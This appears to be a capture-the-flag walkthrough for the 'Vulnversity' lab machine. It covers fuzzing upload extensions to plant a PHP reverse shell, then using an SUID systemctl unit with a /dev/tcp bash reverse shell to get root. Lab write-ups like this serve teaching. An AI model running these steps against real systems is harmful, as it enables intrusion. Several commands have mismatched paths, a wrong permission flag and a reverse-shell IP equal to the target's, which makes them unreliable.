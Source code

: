 # Vulnversity


## Recognition

Start by scanning the machine with nmap

```bash
nmap -sV -A --script vuln 10.9.9.65
```

We see that the Apache server is running on port `3333`

So we scan this server

```bash
gobuster dir -u http://10.9.9.65:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

We discover a subfolder `/internal/` that lets you upload files using a form.

The only problem is that this form doesn't allow any type of file.


We'll use BurpSuite to find the authorized file(s).

Once BurpSuite has been set up correctly, we intercept the request and send a random file.

Then we use `Sniper` and add a payload at the filename extension `filename="name.txt"`.
Just before the '.' and just after the end of the extension.

![intruder](./img/intruder.png)

As suggested in the task 4 of the room, we create a wordlist with some extensions. We add these extensions as payloads in BurpSuite and then we can start the Attack.

![intruder-payloads](./img/intruder-payloads.png)


Once the attack has been carried out, a window shows status 200 for each extension tested, as the request was successful. We therefore need to find out when the error message is not sent (the size of the response will be different).

We find that the extension that works is `.phtml`.

We'll use a reverse-shell already present in kali `/usr/share/webshells/php/php-reverse-shell.php` and rename it to `shell.phtml` (don't forget to change IP and port variables).

This file can now be uploaded to the server. But before Submit, in a terminal, enter the following command:

```bash
nc -lvnp [PORT]
```

SUBMIT.

There's a `bill` user, and in his /home, we can retrieve one of the expected flags.


Next, we need to find a way to gain better privileges. We look for files with the SUID included for the root user.

```bash
find / -type f -user root -perm 6000 2> /dev/null
```

We can see that `/bin/systemctl` is usable. Let's try to play with it. We can't use a text editor. So we're using the `echo` command to write in a file:

```bash
touch /tmp/root.service
echo "
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.65/4444 0>&1'
[Install]
WantedBy=multi-user.target
" >> /tmp/root.service
```

We now need to listen on our port 4444.
```bash
nc -lvnp 4444
```

Go back to the machine you're running and start the service.
```bash
/bin/systemctl enable /tmp/root/service
/bin/systemctl start root
```

So we get a shell (with the root user) on the machine and have access to everything we want.
```bash
cat /root/root.txt
```

THE END.
